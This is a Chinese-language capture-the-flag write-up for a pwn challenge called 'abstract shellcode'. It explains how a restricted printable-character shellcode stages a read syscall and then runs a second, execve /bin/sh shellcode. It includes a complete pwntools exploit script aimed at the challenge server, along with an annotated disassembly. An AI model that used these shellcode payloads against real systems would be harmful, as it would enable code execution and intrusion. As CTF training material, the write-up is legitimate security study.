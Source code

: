# abstract shellcode

确实挺抽象

## 文件分析

NX off, PIE on, Canary on, RELRO full  
ghidra分析为64位程序

## 解题思路

开始时读入一个ye/no，就可以开始输入shellcode了，一开始以为有16字节的限制，
还把字符范围限制在了`'O'~'_'`之间，但是实际动调时发现还有1个任意字符的机会

要想执行system，这么一些字节肯定不够，那么可以参照newstarctf里的shellcode_revenge，
先执行read，再执行，那么这最后的一个字节可以做什么呢，发现`'\xc3'`可以实现跳转，
这时候才意识过来，之前给的两个字符，是用来放syscall(`'\x0f\x05'`)的，
那么只要构造一个read系统调用，再读入execve的shellcode并执行就可以拿到shell

下文有shellcode的详细解释

## 踩过的坑

read的第三个参数`count`有最大值`SSIZE_MAX(0x7ffff000 on Linux)`，
超过这个值是依赖于实现的，当我随便找了一个超大数字时，我用的Arch Linux可以成功read，
Ubuntu就不行，害得我一开始连远端就寄，还得开虚拟机试试（毕竟是内核存在差别）

## EXPLOIT

```python
from pwn import *
context.arch = 'amd64'

def payload(lo):
    global sh
    if lo:
        sh = process('abstractshellcode')
    else:
        sh = remote('43.249.195.138', 21851)
    if lo & 0b10:
        gdb.attach(sh, gdbscript='b *$rebase(0x14aa)')

    # payload 1, place syscall on stack
    sh.send(b'\x0f\x05')

    # payload 2, control registers and return to syscall
    sh.send(b'P^WXOSZYY[YQYQYS\xc3')

    code = '''
    mov rbx, 0x68732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi, esi
    xor edx, edx
    push 0x3b
    pop rax
    syscall
    '''
    shc = asm(code)

    # payload 3, execute /bin/sh
    sh.sendline(b'0'*(0x52 - 0x20) + shc)

    sh.interactive()
```

以下是对第二条payload的解释

```as
push rax ; P
pop  rsi ; ^ 读取到当前字符串开始处
push rdi ; W
pop  rax ; X 复制0给rax
push r11 ; OS (O: REX:WRXB -> 修饰rbx为r11)
pop  rdx ; Z 复制0x246给count参数
pop  rcx ; Y
pop  rcx ; Y
pop  rbx ; [ 先把syscall字符串所在地址读到rbx中
pop  rcx ; Y padding * 5
push rcx ; Q
pop  rcx ; Y
push rcx ; Q
pop  rcx ; Y
push rbx ; S 还原rbx的地址到rsp上
ret      ; \xc3 ; aka pop rip: 程序跳转到rbx的地址上
```

## 参考文献

[printable shellcode](https://web.archive.org/web/20110716082850/http://skypher.com/wiki/index.php?title=X64_alphanumeric_opcodes)

Done.

